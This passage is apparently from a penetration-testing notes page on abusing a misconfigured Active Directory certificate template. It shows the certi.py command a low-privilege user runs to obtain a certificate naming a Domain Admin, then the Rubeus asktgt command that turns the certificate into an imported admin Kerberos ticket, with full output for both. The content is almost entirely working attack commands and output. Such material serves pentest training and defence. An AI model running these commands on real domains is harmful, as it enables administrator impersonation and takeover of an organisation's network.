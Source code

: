 ### Requesting certificate with alternative name

Parameters:

* `offsec-DC01PKI-CA` - is found in the template `Enroll Services` field
* `-k` - to use kerberos authentication
* `-n` - 'no-pass' for use with `-k`
* `--alt-name` - the user you want to impersonate, this will likely be a 'Domain Admin' or equal
* `--template` - the vulnerable template name

```plain
$ python3 certi.py req 'offsec.nl/johndo-lowpriv@DC01PKI.offsec.nl' offsec-DC01PKI-CA -k -n --alt-name johnDomainAdmin --template UsersOffsecAD
[*] Service: offsec-DC01PKI-CA
[*] Template: UsersOffsecAD
[*] Username: johndo-lowpriv
[*] Alternative Name: johnDomainAdmin

[*] Response: 0x3 Issued

[*] Cert subject: CN=johndo-lowpriv
[*] Cert issuer: CN=offsec-DC01PKI-CA,DC=offsec,DC=local
[*] Cert Serial: 1300000820BF3CEC69D8FEB673000200000820
[*] Cert Extended Key Usage: Client Authentication
[+] Cert Altname: johnDomainAdmin@offsec.nl

[*] Saving certificate in johnDomainAdmin@offsec.nl.pfx (password: admin)
```

### Requesting TGT for alternative user

{{%attachments fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

Move the `.pfx` to a Windows machine and start PowerShell for `Rubeus.exe`.

```plain
Z:\Rubeus.exe asktgt /domain:offsec.nl /dc:DC01PKI.offsec.nl /user:johnDomainAdmin /certificate:Z:\johnDomainAdmin@offsec.nl.pfx /password:admin /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=johndo-lowpriv
[*] Building AS-REQ (w/ PKINIT preauth) for: 'offsec.nl\johnDomainAdmin'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGPDCCBjig[REDACTED]FuZC5sb2NhbA==

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/offsec.nl
  ServiceRealm             :  offsec.nl
  UserName                 :  johnDomainAdmin
  UserRealm                :  offsec.nl
  StartTime                :  1/19/2022 6:45:25 AM
  EndTime                  :  1/19/2022 4:45:25 PM
  RenewTill                :  1/26/2022 6:45:25 AM
```